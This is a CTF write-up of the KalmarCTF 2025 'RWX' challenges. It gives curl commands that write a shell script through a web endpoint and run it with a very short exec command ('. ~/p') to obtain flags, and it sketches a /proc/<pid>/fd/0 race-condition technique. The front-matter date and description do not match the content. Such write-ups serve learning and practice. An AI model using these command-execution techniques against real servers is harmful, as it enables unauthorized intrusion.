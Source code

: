 ```yaml
---
staticPath: kalmarctf2025
Title: KalmarCTF 2025
Description: How to escape a python jail with only 14 characters
Date: 2024-09-16
---
```


## RWX - Bronze

I have read write and execute privileges. The goal is to execute the `would` binary with a specific argument to get it to leak the flag. The issue is that for the execute command, it's just piped into subprocess, I'm limited to 7 bytes

```python
if len(cmd) > 7:
	return 'Command too long', 400
```

```
> curl "http://localhost:6664/write?filename=pwn.sh" -d "/would you be so kind to provide me with a flag"
[Errno 13] Permission denied: 'pwn.sh'
```

Let's try writing into /app

```
> curl "http://localhost:6664/write?filename=/app/pwn.sh" -d "/would you be so kind to provide me with a flag"
[Errno 13] Permission denied: '/app/pwn.sh'**%**
```

/tmp?

```
> curl "http://localhost:6664/write?filename=/tmp/pwn.sh" -d "/would you be so kind to provide me with a flag"
OK
```


```
curl "http://localhost:6664/exec?filename=/tmp/pwn.sh"
```

No response :-( That's not even the right syntax. Oops


```
curl "http://localhost:6664/exec?cmd=/tmp/pwn.sh
Command too long
```

lets rewrite it use a shorter filename
```
curl "http://localhost:6664/write?filename=/tmp/p" -d "/would you be so kind to provide me with a flag"
```

```
curl "http://localhost:6664/exec?cmd=/tmp/p
Command too long
```

The trick is how do I actually call my script? Sh is installed. I then realized I could use `.` to run a shell script while reading about bash builtins. I also realized I could use the `~` alias.

```
curl "http://localhost:6664/exec?cmd=~/p"
```

Expands to /home/user/p which I think is useful because its shorter than /tmp

```
curl "http://localhost:6664/write?filename=~p" -d "/would you be so kind to provide me with a flag"
```

I don't think write expands the `~`



```
curl "http://localhost:6664/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "http://localhost:6664/exec?cmd=.%20~/p"
```

Ok


```
curl "https://f2096b4263b0fecaa6c3cacc3e155bba-46857.inst2.chal-kalmarc.tf/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "https://f2096b4263b0fecaa6c3cacc3e155bba-46857.inst2.chal-kalmarc.tf/exec?cmd=.%20~/p"

kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}
```

## RWX - Silver

Same deal as Bronze but I'm limited to 5 bytes. Thankfully, my solve for bronze works for silver!

```
if len(cmd) > 5:
	return 'Command too long', 400
```

```
curl "https://5a655c9cfffbb91c0dbe580f6d3f37a1-56697.inst2.chal-kalmarc.tf/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "https://5a655c9cfffbb91c0dbe580f6d3f37a1-56697.inst2.chal-kalmarc.tf/exec?cmd=.%20~/p"
OKkalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}
```

Yep

## RWX - Diamond

I didn't solve this problem during the CTF. However, I found the solution pretty interesting. It involved exploiting a race condition in order to execute bash commands. The exec command was limited to 4 bytes. You couldn't use the above solution because the user was created without a home directory. The first request started a sh session with `a|sh` this creates an sh process that lives briefly. The second request writes to `/proc/<pid>/fd/0` which then allows for command execution! Pretty cool and not something I would have thought of.